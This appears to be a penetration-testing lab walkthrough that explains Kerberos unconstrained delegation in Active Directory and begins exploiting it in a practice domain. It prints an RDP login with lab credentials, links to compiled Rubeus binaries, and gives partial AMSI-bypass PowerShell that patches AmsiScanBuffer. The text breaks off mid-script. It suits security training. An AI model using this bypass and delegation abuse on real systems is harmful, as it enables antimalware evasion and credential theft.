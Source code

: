 # Unconstrained Delegation

The server or the service account can authenticate on behalf of the user to any other service.

For this to happen there are two prerequisites:
- Account that wants to delegate an authentication has the **TRUSTED_FOR_DELEGATION** flag in his **UAC - User Account Control** flag.To set this flag, you need to have the **SeEnableDelegationPrivilege** right, which is usually only available for Domain Administrators.
- The user account which will be relayed is **relayable.** To disable relaying capabilities on an account, **NOT_DELEGATED** flag is set. By default, no account on the AD has this flag set are all "relayable." 

During exchanges with the Domain Controller, when the users asks for a TGS, he will specify the SPN of the service he wants to use. At this point the Domain Controller looks for the two prerequisites:
- Is the **TRUSTED_FOR_DELEGATION** flag set in the attributes of the account associated to the SPN.
- Is the **NOT_DELEGATION** flag not set for the requesting user.

If both of these are met, the Domain Controller will respond to the user with a TGS containing standard information, but also contains a copy of the user's TGT in his response, and a new associated session key.

## Exploiting Unconstrained Delegation

First, get an RDP connection on Winterfell:

`xfreerdp /d:north.sevenkingdoms.local /u:eddard.stark /p:'FightP3aceAndHonor! /v:10.4.10.11 /cert-ignore`

In the Kali Machine prepare a folder with the `Rubeus.exe` and AMSI (Anti-malware Scan Interface) bypass.

In the folder, clone the following github repo for the Rubeus.exe, and keep only the Rubeus.exe file:

`https://github.com/r3motecontrol/Ghostpack-CompiledBinaries`

Prepare the ANSI bypass file, by creating a text document and pasting the following:

```txt
# Patching amsi.dll AmsiScanBuffer by rasta-mouse
$Win32 = @"

using System;
using System.Runtime.InteropServices;

public class Win32 {

    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

}
"@

Add-Type $Win32

$LoadLibrary = [Win32]::LoadLibrary("amsi.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "AmsiScanBuffer")
```